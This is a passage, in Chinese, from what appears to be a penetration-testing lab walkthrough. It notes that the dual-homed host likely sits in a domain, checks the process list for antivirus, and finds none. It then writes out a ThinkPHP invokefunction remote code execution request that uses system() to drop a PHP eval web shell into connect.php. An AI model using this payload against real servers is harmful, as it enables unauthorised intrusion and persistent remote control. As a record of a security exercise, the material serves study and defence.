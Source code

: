 可以发现是双网卡所以可以猜测大概率含有域环境

这里查看一下进程信息，看看是否含有杀软

<img src="image/image-20240409170817613.png" alt="image-20240409170817613" style="zoom:67%;" />

发现没有杀软，尝试直接写入一句话木马

```
192.168.1.132/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=echo "<?php @eval($_POST[cmd]);?>" > connect.php
```

<img src="image/image-20240409171718284.png" alt="image-20240409171718284" style="zoom:50%;" />
